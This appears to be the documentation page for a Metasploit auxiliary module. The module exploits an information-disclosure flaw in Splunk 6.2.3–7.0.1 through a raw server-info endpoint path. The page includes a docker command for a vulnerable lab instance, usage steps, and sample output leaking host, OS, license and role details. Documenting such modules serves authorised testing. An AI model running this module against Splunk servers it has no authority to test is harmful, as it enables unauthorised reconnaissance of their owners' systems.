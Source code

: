 ## Vulnerable Application

Splunk versions 6.2.3 through 7.0.1 allows information disclosure by appending
`/__raw/services/server/info/server-info?output_mode=json` to a query.

### Docker Install

A vulnerable version of Splunk can be installed locally with docker:

`docker run -p 8000:8000 -e "SPLUNK_PASSWORD=splunk" -e "SPLUNK_START_ARGS=--accept-license" -it --name so1 splunk/splunk:6.5.5`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/splunk_raw_server_info`
1. Do: `SET RHOSTS [IP]`
1. You should receive output about the Splunk version and roles, license status, including license key info, and OS information.

## Options

## Scenarios

```
msf6 > use auxiliary/gather/splunk_raw_server_info 
msf6 auxiliary(gather/splunk_raw_server_info) > exploit
[*] Running module against 127.0.0.1

[+] Output saved to ~/.msf4/loot/20231220130955_default_127.0.0.1_splunk.system.st_442957.bin
[+] Hostname: 3c7b9beb6c3c
[+] CPU Architecture: x86_64
[+] Operating System: Linux
[+] OS Build: #1 SMP PREEMPT_DYNAMIC Debian 6.5.3-1kali2 (2023-10-03)
[+] OS Version: 6.5.0-kali2-amd64
[+] Splunk Version: 6.5.5
[+] Trial Version?: true
[+] Splunk Forwarder?: false
[+] Splunk Product Type: enterprise
[+] License State: EXPIRED
[+] License Key(s): []
[+] Splunk Server Roles: ["indexer", "license_master"]
[+] Splunk Server Startup Time: 2023-12-19 20:56:13
```
